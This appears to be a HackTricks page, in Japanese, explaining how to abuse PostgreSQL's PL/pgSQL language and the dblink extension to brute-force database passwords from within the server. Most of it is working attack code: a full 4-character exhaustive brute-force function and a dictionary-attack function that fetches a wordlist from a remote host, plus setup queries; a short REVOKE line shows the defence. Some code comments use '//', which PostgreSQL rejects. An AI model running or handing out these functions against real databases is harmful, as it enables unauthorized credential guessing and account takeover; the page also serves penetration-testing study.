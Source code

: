 # PL/pgSQL パスワードブルートフォース

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください!
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

**[元の論文でこれらの攻撃に関する詳細情報を見つける](http://www.leidecker.info/pgshell/Having\_Fun\_With\_PostgreSQL.txt)**。

PL/pgSQLは、**強化された手続き制御**を提供することにより、SQLの機能を超えた**完全なプログラミング言語**です。これには、ループやさまざまな制御構造の利用が含まれます。PL/pgSQL言語で作成された関数は、SQL文やトリガーによって呼び出すことができ、データベース環境内の操作の範囲を広げます。

この言語を悪用して、PostgreSQLにユーザーの資格情報をブルートフォースさせることができますが、データベースに存在する必要があります。その存在を確認するには、次のコマンドを使用できます:
```sql
SELECT lanname,lanacl FROM pg_language WHERE lanname = 'plpgsql';
lanname | lanacl
---------+---------
plpgsql |
```
デフォルトでは、**関数の作成はPUBLICに付与された特権です**。ここでPUBLICは、そのデータベースシステム上のすべてのユーザーを指します。これを防ぐために、管理者はPUBLICドメインからUSAGE特権を取り消す必要がありました：
```sql
REVOKE ALL PRIVILEGES ON LANGUAGE plpgsql FROM PUBLIC;
```
その場合、以前のクエリは異なる結果を出力します：
```sql
SELECT lanname,lanacl FROM pg_language WHERE lanname = 'plpgsql';
lanname | lanacl
---------+-----------------
plpgsql | {admin=U/admin}
```
以下のスクリプトが機能するためには、**`dblink`関数が存在する必要があります**。存在しない場合は、次のように作成を試みることができます。
```sql
CREATE EXTENSION dblink;
```
## パスワードブルートフォース

ここでは、4文字のパスワードブルートフォースを実行する方法を示します:
```sql
//Create the brute-force function
CREATE OR REPLACE FUNCTION brute_force(host TEXT, port TEXT,
username TEXT, dbname TEXT) RETURNS TEXT AS
$$
DECLARE
word TEXT;
BEGIN
FOR a IN 65..122 LOOP
FOR b IN 65..122 LOOP
FOR c IN 65..122 LOOP
FOR d IN 65..122 LOOP
BEGIN
word := chr(a) || chr(b) || chr(c) || chr(d);
PERFORM(SELECT * FROM dblink(' host=' || host ||
' port=' || port ||
' dbname=' || dbname ||
' user=' || username ||
' password=' || word,
'SELECT 1')
RETURNS (i INT));
RETURN word;
EXCEPTION
WHEN sqlclient_unable_to_establish_sqlconnection
THEN
-- do nothing
END;
END LOOP;
END LOOP;
END LOOP;
END LOOP;
RETURN NULL;
END;
$$ LANGUAGE 'plpgsql';

//Call the function
select brute_force('127.0.0.1', '5432', 'postgres', 'postgres');
```
_Note that even brute-forcing 4 characters may take several minutes._

あなたはまた**単語リストをダウンロード**し、そのパスワードのみを試すことができます（辞書攻撃）：
```sql
//Create the function
CREATE OR REPLACE FUNCTION brute_force(host TEXT, port TEXT,
username TEXT, dbname TEXT) RETURNS TEXT AS
$$
BEGIN
FOR word IN (SELECT word FROM dblink('host=1.2.3.4
user=name
password=qwerty
dbname=wordlists',
'SELECT word FROM wordlist')
RETURNS (word TEXT)) LOOP
BEGIN
PERFORM(SELECT * FROM dblink(' host=' || host ||
' port=' || port ||
' dbname=' || dbname ||
' user=' || username ||
' password=' || word,
'SELECT 1')
RETURNS (i INT));
RETURN word;

EXCEPTION
WHEN sqlclient_unable_to_establish_sqlconnection THEN
-- do nothing
END;
END LOOP;
RETURN NULL;
END;
$$ LANGUAGE 'plpgsql'

-- Call the function
select brute_force('127.0.0.1', '5432', 'postgres', 'postgres');
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
